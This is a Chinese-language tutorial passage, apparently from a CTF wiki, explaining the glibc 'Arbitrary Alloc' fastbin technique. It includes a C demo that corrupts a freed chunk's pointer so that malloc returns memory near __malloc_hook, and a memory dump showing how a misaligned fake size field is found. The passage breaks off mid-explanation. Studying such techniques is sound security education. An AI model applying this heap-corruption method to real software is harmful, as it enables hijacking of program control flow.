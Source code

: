## Arbitrary Alloc

### 介绍

Arbitrary Alloc 其实与 House of Spirit 是完全相同的，唯一的区别是分配的目标不再是栈中。
事实上只要满足目标地址存在合法的size域，我们可以把chunk分配到任意的可写内存中，比如bss、heap、data、stack等等。

大家可能会认为 HOS 与 arbitrary alloc 没有什么区别，因此没有必要分为两类。相信看完下面的一个例子，就会有不一样的想法了。

### 演示
在这个例子，我们使用字节错位来实现直接分配 fastbin 到**\_malloc_hook的位置，相当于覆盖_malloc_hook来控制程序流程。**
```
int main(void)
{
    
    
    void *chunk1;
    void *chunk_a;
    
    chunk1=malloc(0x60);
    
    free(chunk1);
    
    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1b00 0x20	0x2e 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b08 0x0	0x2a 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>:	0x30	0x28	0xa9	0xf7	0xff	0x7f	0x0	0x0
```
0x7ffff7dd1b10 是我们想要控制的 __malloc_hook 的地址，于是我们向上寻找是否可以错位出一个合法的size域。因为这个程序是 64 位的，因此 fastbin 的范围为32字节到128字节(0x20-0x80)，如下：
```
//这里的size指用户区域，因此要小2倍SIZE_SZ
Fastbins[idx=0, size=0x10] 
Fastbins[idx=1, size=0x20] 
Fastbins[idx=2, size=0x30] 
Fastbins[idx=3, size=0x40] 
Fastbins[idx=4, size=0x50] 
Fastbins[idx=5, size=0x60] 
Fastbins[idx=6, size=0x70] 
```
通过观察发现 0x7ffff7dd1af5 处可以现实错位构造出一个0x000000000000007f
```
```